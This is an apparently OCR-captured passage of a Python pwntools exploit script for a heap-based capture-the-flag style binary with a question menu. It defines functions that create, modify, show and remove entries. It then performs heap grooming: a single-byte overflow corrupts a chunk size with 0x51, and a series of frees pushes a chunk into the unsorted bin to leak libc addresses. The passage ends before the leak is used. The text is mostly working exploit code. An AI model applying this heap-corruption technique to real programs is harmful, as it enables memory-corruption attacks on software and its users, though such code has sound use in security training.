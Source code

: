 ```

	target.sendline(b'1')

	print(target.recvuntil(b'Question\'s size:'))

	target.sendline(str(size))

	print(target.recvuntil(b'here:'))

	target.sendline(content)


def modify_question(question_id, content):
	print(target.recvuntil(b'4. Remove'))

	target.sendline(b'3')

	print(target.recvuntil(b'Question\'s id:'))

	target.sendline(str(question_id))

	print(target.recvuntil(b'question:'))

	target.sendline(content)

def show_question(question_id):
	print(target.recvuntil(b'4. Remove'))

	target.sendline(b'2')

	print(target.recvuntil(b'Question\'s id:'))

	target.sendline(str(question_id))
    
def remove_question(question_id):
	print(target.recvuntil(b'4. Remove'))

	target.sendline(b'4')

	print(target.recvuntil(b'Question\'s id:'))

	target.sendline(str(question_id))
    
create_question(0x18, b'a' * 0x18)
create_question(0x18, b'b' * 0x18)
create_question(0x98, b'c' * 0x98)
create_question(0x98, b'd' * 0x98)
create_question(0x98, b'e' * 0x98)
create_question(0x98, b'f' * 0x98)
create_question(0x98, b'g' * 0x98)
create_question(0x98, b'h' * 0x98)
create_question(0x98, b'i' * 0x98)
create_question(0x98, b'j' * 0x98)
modify_question(0, b'0' * 0x18 + b'\x51')
remove_question(1)
remove_question(3)
remove_question(4)
remove_question(5)
remove_question(6)
remove_question(7)
remove_question(8)
remove_question(9)
#This one is going in the unsorted bin so that I can look at the libc addresses
```